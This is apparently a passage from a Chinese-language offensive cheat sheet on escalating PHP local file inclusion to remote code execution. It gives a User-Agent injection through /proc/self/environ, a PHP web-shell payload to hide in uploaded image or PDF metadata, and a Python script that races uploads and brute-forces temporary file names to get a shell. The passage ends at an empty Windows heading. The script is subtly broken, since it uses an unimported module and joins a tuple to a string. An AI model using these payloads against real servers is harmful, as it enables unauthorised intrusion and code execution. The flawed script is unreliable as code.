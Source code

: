 ## 通过/proc/self/environ从LFI到RCE

像日志文件一样，在User-Agent中发送有效载荷，它将在/proc/self/environ文件中反映出来。

```powershell
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

## 通过上传实现从LFI到RCE

如果你可以上传文件，只需在其中注入shell有效载荷（例如：`<?php system($_GET['c']); ?>`）。

```powershell
http://example.com/index.php?page=path/to/uploaded/file.png
```

为了保持文件的可读性，最好将其注入图片/文档/PDF的元数据中。

## 通过上传（竞争条件）实现从LFI到RCE

- 上传一个文件并触发自我包含。
- 重复上传大量次数以：
- 增加我们赢得竞争的机会
- 增加我们的猜测机会
- 暴力破解包含/tmp/[0-9a-zA-Z]{6}
- 享受我们的shell。

```python
import itertools
import requests
import sys

print('[+] 尝试赢得竞争')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)

print('[+] 暴力破解包含')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] 我们获得了一个shell：' + url)
        sys.exit(0)

print('[x] 出了点问题，请再试一次')
```

## 通过上传（FindFirstFile）实现从LFI到RCE

:warning: 仅在Windows上有效
